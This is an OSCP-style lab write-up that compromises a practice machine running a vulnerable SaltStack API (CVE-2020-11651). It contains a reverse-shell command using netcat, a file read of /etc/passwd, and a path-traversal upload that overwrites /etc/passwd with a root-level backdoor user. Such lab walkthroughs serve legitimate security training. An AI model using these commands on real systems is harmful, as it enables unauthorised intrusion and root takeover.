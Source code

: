 **Start 13:28 06-09**

---
```
192.168.166.62
```
## Recon

==Nmap==
As always we start of by doing recon with `nmap`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 192.168.166.62 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 07:29 EDT
Nmap scan report for 192.168.166.62
Host is up (0.017s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.89 seconds
```

It appears that there's a total of 4 ports open. 
I added the host under `twiggy.oscp` to my `/etc/hosts` file.

Let's check out what's running.

## 80/TCP - HTTP

I went to the website and found the following screen:

![](../../../assets/d8c04893ee9a1d955cbbe7d46e1a3d7a.png)

Here I noticed that only one link was useful, the `Log in` link which brought me to the `/admin` endpoint.

![](../../../assets/612e4e5610b5306769117df83afcde5a.png)

I tried some default creds such as `admin - admin` but got no further. Instead I checked out the `8000` port for now.


## 8000/TCP - HTTP

Heading to this page I found the following:

![](../../../assets/e4c20b5113e51de7301a88d837685736.png)

By checking out the `headers` I was able to find out that uses the `salt-api` on `X-Upstream`.

![](../../../assets/bfff1187319f0b2d871da81ef488014a.png)

I did some research on this particular version and found some interesting info:

![](../../../assets/ecc655ef55bf8e6797c60f1981ca94f4.png)

![](../../../assets/abd08fa48433fae761b1e8d5e3520aa3.png)


==Exploit - FAIL==
Since we are not yet authenticated the 1st one seems more interesting to us. I then proceeded to look up ready-made exploits for this CVE and [found one](https://github.com/dozernz/cve-2020-11651):

![](../../../assets/d219c8212f0b4ab9c303d9aee59d764f.png)

I followed the instructions mentioned and got ready to exploit. 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Now that my listener is listening I use the exploit.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python CVE-2020-11651.py 192.168.166.62 master 'nc 192.168.45.243 4444 -e "/bin/bash"'

Attempting to ping master at 192.168.166.62
Retrieved root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906124113496153', 'tag': 'salt/run/20240906124113496153'}. Looks promising!
```

Unfortunately enough it threw me an error which I had to research. I found out that it was due to the fact that the packages in `salt` I was using were already deprecated, meaning I had to create a `virtual env` where I could manually select the correct packages. But beforehand I had to install `Python 3.7` with the following technique:

```bash
sudo apt update
sudo apt install build-essential libssl-dev zlib1g-dev libncurses5-dev libgdbm-dev libnss3-dev libsqlite3-dev libreadline-dev libffi-dev

wget https://www.python.org/ftp/python/3.7.13/Python-3.7.13.tgz
tar -xf Python-3.7.13.tgz
cd Python-3.7.13

./configure --enable-optimizations
make -j "$(nproc)"
sudo make altinstall
```

Once all these commands were issued I could now start up a `venv`:

```bash
python3.7 -m venv env
source env/bin/activate
```

Now that the `env` has been activated I could use `sed` to modify the `core.py` file.

```bash
kali@kali:~$ python3 -m venv env

kali@kali:~$ . ./env/bin/activate

(env) kali@kali:~$ pip install distro salt

(env) kali@kali:~$ sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py

(env) kali@kali:~$ sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

This wouldn't work for some reason...

Off to a particular bad start.

## Retracing

Since I wouldn't get a shell I decided to check out whether I could still issue commands using the previously found `PoC`. I checked out the argument options:

![](../../../assets/e603457d2f2df8abb7172a1934ce39dd.png)

I noticed the `-r` flag meaning we can try to read a file like `/etc/passwd` for example. I decided to set it up and try it out:

```bash
python3 exploit.py --master 192.168.248.62 -r /etc/passwd
```

![](../../../assets/2680d63a7d8a344bbb1f7a9c30146fc0.png)

Indeed it worked! I also noticed there's a way to `upload` files using the exploit which I will leverage to insert a new user into the `/etc/passwd` file. I'll give the user the following creds `hacked - 1234`. I'll have to first use `openssl` to encrypt the password and then add it to the end of the file.

```bash
┌──(kali㉿kali)-[~]
└─$ openssl passwd 1234   
$1$RycphDiZ$IWncJI4gWPGrxGPuowStT0
```

I then used the following command to add the new user to the end of the file, I gave the new user the same privileges as the `root` user:

![](../../../assets/909b38c3a561f1a65b2676d0ec809bc9.png)

Now that I had modified the file I could get to uploading it:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py --master 192.168.248.62 --upload-src passwd --upload-dest ../../../../../../etc/passwd
```

![](../../../assets/006207b8c5f498916a37d5c81be65099.png)

I notice the last line where it tells me the data has successfully been written to `/etc/passwd` meaning I can now try to `SSH` into the machine using my creds.

```
hacked
1234
```

## 22/TCP - SSH

I log in to `SSH` and instantly get `root` privileges:

![](../../../assets/d4d5768af0f8b7d22c539bfbb884f5e4.png)

I can now easily get the flag, since it is in the same directory I land in.

```bash
[root@twiggy ~]# ls -l
total 4
-rw-r--r-- 1 root root 33 Sep  9 10:33 proof.txt
[root@twiggy ~]# cat proof.txt 
558d69dcbb65ab8dee0a40be604829d6
```


---

**Finished 17:04 09-09**

[^Links]: [[OSCP Prep]] 